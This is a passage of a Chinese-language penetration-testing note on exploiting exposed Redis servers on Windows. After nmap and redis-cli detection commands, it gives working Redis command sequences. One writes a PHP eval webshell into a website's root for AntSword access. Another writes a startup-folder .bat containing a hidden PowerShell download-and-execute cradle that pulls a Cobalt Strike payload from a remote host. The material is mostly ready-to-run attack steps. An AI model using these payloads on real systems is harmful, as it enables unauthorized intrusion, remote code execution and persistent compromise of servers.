 # 0x03 漏洞检测
```bash
nmap -sV -p 6379 --script redis-info
redis-cli -h ip -p port -a 密码
```

# 0x04 利用方式
## 4.1 Windows

### 1、网站绝对路径写webshell

🚩 [网站路径存在中文如何解决？？](https://github.com/reidmu/sec-note/tree/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/Redis#%E4%B8%AD%E6%96%87%E8%B7%AF%E5%BE%84)

```bash
config set dir "E:/phpstudy_pro/WWW"
//切换目录到网站的根目录

set x "\n\n\n<?php phpinfo();?>\n\n\n"
//写入恶意代码到内存中(1)

set xx "\n\n\n<?php @eval($_POST['cmd']);?>\n\n\n"
//写入恶意代码到内存中(2)

config set dbfilename shell.php
//在磁盘中生成木马文件

save
//将内存之中的数据导出到磁盘文件
```
phpinfo获取网站绝对路径：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637663468168-b4faa0b5-0518-4dc0-8c7b-a325e5d96c05.png#clientId=u780fef54-e9bc-4&from=paste&id=ud7587e6c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=32&originWidth=578&originalType=binary&ratio=1&size=3244&status=done&style=none&taskId=u1024e06d-071b-4cb7-9abf-0aec4e15006)

蚁剑连接`http://ip/shell.php`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637663607313-142844f1-6ad9-41fd-a054-a781b40a0581.png#clientId=u780fef54-e9bc-4&from=paste&height=333&id=ubf820056&margin=%5Bobject%20Object%5D&name=image.png&originHeight=665&originWidth=966&originalType=binary&ratio=1&size=61178&status=done&style=none&taskId=ud6c89788-a069-4a6c-ad92-94912f82070&width=483)



### 2、开机自启动目录
缺点：需要靶机服务器重启。

1）cs生成powershell一句话

![image](https://user-images.githubusercontent.com/84888757/173838744-51aa77fe-ef2c-4e11-8785-c1c4a62816d9.png)


2）redis-cli执行命令
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('[http://x.x.x.x:80/a'))"](http://x.x.x.x:80/a'))")
```bash
config set dir "C:/Users/lin/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"

config set dbfilename lin.bat

set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/a'))\"\r\n\r\n"

save
```
